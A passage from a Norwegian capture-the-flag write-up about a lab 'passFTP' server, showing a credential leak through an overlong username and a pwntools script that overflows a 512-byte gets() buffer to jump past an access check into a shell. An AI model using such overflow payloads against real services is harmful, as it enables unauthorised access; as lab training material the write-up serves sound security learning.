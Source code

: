```
Welcome to passFTP Server v1.0
Please login to continue
Username: anonymousAAAAAAAAAAAAAAAAAAAAAAAanonymousAAAAAAAAAAAAAAAAAAAAAAA
Password: Welcome anonymousAAAAAAAAAAAAAAAAAAAAAAAanonymous:anonymous:1
oper:29f86b673a930da166e567978cdb0e74:2
admin:nopasswd:3

passFTP> Unknown command
```

Med passordet til `oper`, gjenstår det bare å logge inn for å finne neste flagg.

```
Welcome to passFTP Server v1.0
Please login to continue
Username: oper
Password: 29f86b673a930da166e567978cdb0e74
Welcome oper

passFTP> Unknown command
passFTP> ls
total 4
-rw-r--r-- 1 admin admin 40 Jan 12 11:43 FLAGG
passFTP>
```

Dette flagget gir også en premie, nemlig kildekoden til ACCESS16-leseren som vi trenger i oppdraget.

Ny fil: /home/login/2_oppdrag/access16-v1.6.mos


### 2.5.3_passftp

Siste mål er å få admin-tilgang, og via `oper`-brukeren har vi nå tilgang til `put` for å laste opp filer. Etter å ha brukt alt for lang tid på å analysere programmet etter sårbarheter i `2.5.2_passftp`, var denne oppgaven ganske rett-fram. Når man laster opp en fil, så er det ingen begrensning på størrelsen man laster opp, for de kaller den utrolig farlige funksjonen `gets()` som gir en sterk advarsel om man forsøker å kompilere programmet selv. Bufferet er bare på skarve 512 bytes, og dette fyller vi opp lett. Siden programmet ikke har noen form for stack cookies, og ei heller `PIE`, kan vi nærmest hoppe rett til `shell`-kommandoen. Men vi må hoppe litt forbi starten på den for å unngå at de sjekker tilgangsnivået vårt.

```python
from pwn import *

context.arch = "x86_64"

pload = b"A"* (512+8*3) + p64(0x40265D)

r = remote("passftp", 1024)
r.sendlineafter(b"Username", b"oper")
r.sendlineafter(b"Password", b"29f86b673a930da166e567978cdb0e74")

r.sendlineafter(b"passFTP>", b"put lol")
r.sendlineafter(b"Enter Data: \n", pload)
r.interactive()
r.close()
```
